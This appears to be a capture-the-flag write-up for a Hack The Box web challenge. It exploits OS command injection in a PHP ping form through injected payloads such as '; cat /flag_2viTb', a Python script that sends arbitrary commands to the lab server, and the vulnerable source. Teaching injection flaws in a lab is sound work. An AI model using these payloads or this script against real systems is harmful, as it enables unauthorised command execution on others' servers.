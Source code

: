# Looking Glass

## Analysis

When we start the instance, we are met with an options menu:

![](<../../.gitbook/assets/image (2).png>)

It appears as if we can input the IP, which is then pinged. Let's imagine for a second how this could be implemented on the server side. A common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + ip);
```

Essentially, we're passing the parameters to bash. This means we could, theoretically, insert a `;` character into the `ip` variable, and everything behind it would be interpreted as a seperate command, e.g.:

```php
system("ping -c 4 178.62.0.100; ls");
```

Here, `ls` would be run as a separate command. Let's see if it works!

## Exploitation

Let's try it by simply inputting `; ls` to the end of the IP and submitting:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
index.php
```

Look - as well as the `ping` command, we get `index.php`, which is the result of the `ls` command!

There doesn't appear to be a flag, so we'll try `; ls /` to read the root directory next:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
bin
boot
dev
entrypoint.sh
etc
flag_2viTb
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```

Woo - there's a `flag_2viTb` file! Now we'll inject `; cat /flag_2viTb` to read the flag:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

And boom, we've got the flag - `HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}`.

## Automation

Because I prefer a command-line interface, I originally created a simple script to inject parameters for me:

```python
from requests import post

cmd = input('>> ')

data = {'test': 'ping', 'ip_address': f'178.62.0.100; {cmd}', 'submit': 'Test'}
r = post('http://178.62.0.100:30134/', data=data)

data = r.text
data = data.split('packet loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

This simply inputs the command as `cmd`, sets the POST parameters, and (really messily) parses the response to return just the data.

```
$ python3 exploit.py 
>> cat /flag_2viTb      
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source

We can inject `cat index.php` to see what exactly was happening, and we immediately see the following lines:

```php
function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}
```

As we guessed, it passed in the input _without sanitising it_ to remove potential injection.
